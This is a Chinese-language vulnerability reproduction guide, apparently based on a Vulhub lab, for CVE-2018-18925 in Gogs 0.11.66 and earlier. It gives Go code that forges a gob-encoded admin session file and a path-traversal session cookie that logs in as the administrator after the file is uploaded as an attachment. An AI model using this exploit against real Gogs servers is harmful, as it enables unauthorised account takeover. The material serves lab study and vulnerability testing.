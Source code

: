 # （CVE-2018-18925）Gogs 任意用户登录漏洞

## 一、漏洞简介

gogs是一款极易搭建的自助Git服务平台，具有易安装、跨平台、轻量级等特点，使用者众多。

其0.11.66及以前版本中，（go-macaron/session库）没有对sessionid进行校验，攻击者利用恶意sessionid即可读取任意文件，通过控制文件内容来控制session内容，进而登录任意账户。

## 二、漏洞影响

Gogs < 0.11.66

## 三、复现过程

执行如下命令启动gogs：

```shell
docker-compose up -d
```

环境启动后，访问http://your-ip:3000，即可看到安装页面。安装时选择sqlite数据库，并开启注册功能。

安装完成后，需要重启服务：docker-compose restart，否则session是存储在内存中的。

## 漏洞利用

使用Gob序列化生成session文件：

```
package main

import (
    "bytes"
    "encoding/gob"
    "encoding/hex"
    "fmt"
    "io/ioutil"
    "os"
)

func EncodeGob(obj map[interface{}]interface{}) ([]byte, error) {
    for _, v := range obj {
        gob.Register(v)
    }
    buf := bytes.NewBuffer(nil)
    err := gob.NewEncoder(buf).Encode(obj)
    return buf.Bytes(), err
}

func main() {
    var uid int64 = 1
    obj := map[interface{}]interface{}{"_old_uid": "1", "uid": uid, "uname": "root"}
    data, err := EncodeGob(obj)
    if err != nil {
        fmt.Println(err)
    }
    err = ioutil.WriteFile("data", data, os.O_CREATE|os.O_WRONLY)
    if err != nil {
        fmt.Println(err)
    }
    edata := hex.EncodeToString(data)
    fmt.Println(edata)
}
```

然后注册一个普通用户账户，创建项目，并在“版本发布”页面上传刚生成的session文件：

![image](images/img1.png)

通过这个附件的URL，得知这个文件的文件名：./attachments/2eb7f1a2-b5ec-482e-a297-15b625d24a10。

然后，构造Cookie：i_like_gogits=../attachments/2/e/2eb7f1a2-b5ec-482e-a297-15b625d24a10，访问即可发现已经成功登录id=1的用户（即管理员）：

![image](images/img2.png)

完整的利用过程与原理，可以阅读参考链接中的文章。

## 参考链接

https://vulhub.org/#/environments/gogs/CVE-2018-18925/
